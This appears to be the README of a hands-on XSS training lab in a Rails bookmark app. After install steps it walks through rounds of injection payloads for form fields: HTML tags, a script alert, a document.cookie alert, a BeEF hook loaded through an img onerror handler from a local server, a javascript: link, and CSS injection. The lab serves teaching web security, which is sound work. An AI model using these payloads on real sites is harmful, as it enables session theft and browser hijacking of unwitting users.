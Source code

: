 # XSS hands-on with Rails application

## Install

- Install dependencies

```console
bundle install
```

- Run

```console
rails server
```

## Hack

### Round 1: HTML

Add a bookmark with html tags in comment:

- Title: 

```
OWASP Cheat Sheet Series
```

- Link

```
https://cheatsheetseries.owasp.org
```

- Comment

```
The <b>OWASP Cheat Sheet Series</b> was created to provide a concise collection of high value information on specific application security topics.
```

What happened ? and why ?


### Round 2: Alert

Add a bookmark with script tags in comment:

```
<script>alert(`XSS`)</script>
```

What happened ? and why ?

### Round 3: Cookie :fearful:

Add a bookmark with script tags in comment to get session cookie

```
<script>alert(document.cookie)</script>
```

### Round 4: Beef :scream:

```
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();" />
```

### Round 4: URL

Add a bookmark with javascript in link field:

```
javascript:alert('XSS')
```

this link will be well encoded to prevent XSS:

```
<a href="javascript:alert(&#39;XSS&#39;)">javascript:alert(&#39;XSS&#39;)</a>
```

What happened if you click in the link ? and why ?


### Round 5: CSS

Add a bookmark with CSS in color fiels to load an image:

```
red; background: url(https://http.cat/200)
```

What happened ? and why ?

